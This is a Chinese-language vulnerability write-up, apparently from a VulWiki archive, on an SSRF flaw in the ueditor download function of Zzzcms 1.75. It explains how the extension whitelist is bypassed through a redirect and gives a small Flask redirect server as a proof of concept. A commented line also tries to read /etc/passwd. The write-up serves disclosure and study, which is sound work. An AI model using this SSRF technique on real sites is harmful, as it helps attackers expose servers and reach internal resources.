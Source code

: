 Zzzcms 1.75 ssrf
================

一、漏洞简介
------------

存在这个问题的接口主要功能是远程下载保存图片，但是后缀限制死了，因此远程下载webshell的目的应该是达不到了，退而求其次也可以作为SSRF利用，比如需要获取目标主机的真实IP地址的场景下。

二、漏洞影响
------------

Zzzcms 1.75

三、复现过程
------------

### 漏洞分析

功能实现在

    plugins/ueditor/php/controller.php

![](/Users/aresx/Documents/VulWiki/.resource/Zzzcms1.75ssrf/media/rId25.png)

传入的post参数进入safe\_url函数进行处理，然后传入down\_url函数。这里safe\_url函数作用不大，主要是在down\_url中的逻辑。

在down\_url函数逻辑中根据url获取了保存的文件名和后缀，并且进行了文件名后缀的白名单限制和检测。

![](/Users/aresx/Documents/VulWiki/.resource/Zzzcms1.75ssrf/media/rId26.png)

最后通过readfile进行远程资源获取（本地也可以，支持file协议），这里通过file\_ext函数传入`http://XXXX/x.php?x.jpg`得到的文件名后缀仍然是php，对问号进行了处理，因此利用SSRF达到任意地址访问需要利用301/302跳转实现，本地搭建一个提供跳转的http服务器，然后进行访问：

    from flask import Flask,redirect,request
    app = Flask(__name__)
    @app.route('/1.txt')
    def index(page_name=''):
        #return redirect('file:///etc/passwd', code=301) #not work
        return redirect('http://www.net.cn/static/customercare/yourip.asp', code=301)
    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=9000, debug=app.debug)

![](/Users/aresx/Documents/VulWiki/.resource/Zzzcms1.75ssrf/media/rId27.png)

![](/Users/aresx/Documents/VulWiki/.resource/Zzzcms1.75ssrf/media/rId28.png)

参考链接
--------

> https://xz.aliyun.com/t/7414
